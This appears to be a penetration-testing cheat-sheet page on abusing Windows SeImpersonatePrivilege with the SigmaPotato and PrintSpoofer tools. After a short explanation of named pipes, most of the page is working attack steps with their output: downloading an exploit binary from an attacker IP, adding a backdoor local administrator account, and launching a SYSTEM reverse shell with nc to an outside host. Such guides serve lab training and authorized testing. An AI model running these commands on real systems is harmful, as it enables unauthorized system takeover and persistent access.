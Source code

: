 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to `administrator` accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

> _**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time._

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## SigmaPotato

[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a tool that leverages a variation of the "potato" attacks to coerce `NT AUTHORITY\SYSTEM` into connecting to a controlled named pipe. If we have `SeImpersonatePrivilege`, SigmaPotato lets us escalate to `SYSTEM`, executing commands or gaining an interactive shell.

{% tabs %}
{% tab title="1. Bind Shell" %}
{% code overflow="wrap" %}
```bash
$ nc 192.168.225.220 4444
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
<SNIP>
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="2. Execute" %}
{% code overflow="wrap" %}
```powershell
C:\Users\dave>powershell
<SNIP>

PS C:\Users\dave> iwr http://192.168.45.226/SigmaPotato.exe -outfile sigmapotato.exe
iwr http://192.168.45.226/SigmaPotato.exe -outfile sigmapotato.exe
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
PS C:\Users\dave> .\sigmapotato.exe "net user dave4 lab /add"
.\sigmapotato.exe "net user dave4 lab /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 1016 | Token: 0x280 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1040
[+] Current Command Length: 23 characters
[+] Creating Process via 'CreateProcessWithTokenW'
[+] Process Started with PID: 5424

[+] Process Output:
The command completed successfully.


PS C:\Users\dave> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
.\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 1016 | Token: 0x280 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 988
[+] Current Command Length: 40 characters
[+] Creating Process via 'CreateProcessWithTokenW'
[+] Process Started with PID: 10876

[+] Process Output:
The command completed successfully.
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
PS C:\Users\dave> Get-LocalGroupMember administrators
Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave4         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
{% endtab %}
{% endtabs %}

## PrintSpoofer

{% tabs %}
{% tab title="1. PrivEsc" %}
Escalate to `NT AUTHORITY\SYSTEM` on the same session:

```powershell
PrintSpoofer.exe -i -c cmd
```
{% endtab %}

{% tab title="2. RevShell" %}
Create a new `SYSTEM` process and exit immediately without interacting with it. Suitable for non-interactive cases, e.g. WinRM.

```powershell
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

On the attacking box:

```bash
$ nc -lvpn 1337
...
C:\WINDOWS\system32>whoami
nt authority\system
```
{% endtab %}

{% tab title="3. RDP" %}
&#x20;Spawn a `SYSTEM` command prompt on your desktop, for instance, when logged in via an RDP session.

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp           lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="SigmaPotato" %}
{% embed url="https://github.com/tylerdotrar/SigmaPotato" %}
{% endtab %}

{% tab title="PrintSpoofer" %}
{% embed url="https://github.com/itm4n/PrintSpoofer?tab=readme-ov-file" %}
{% endtab %}
{% endtabs %}
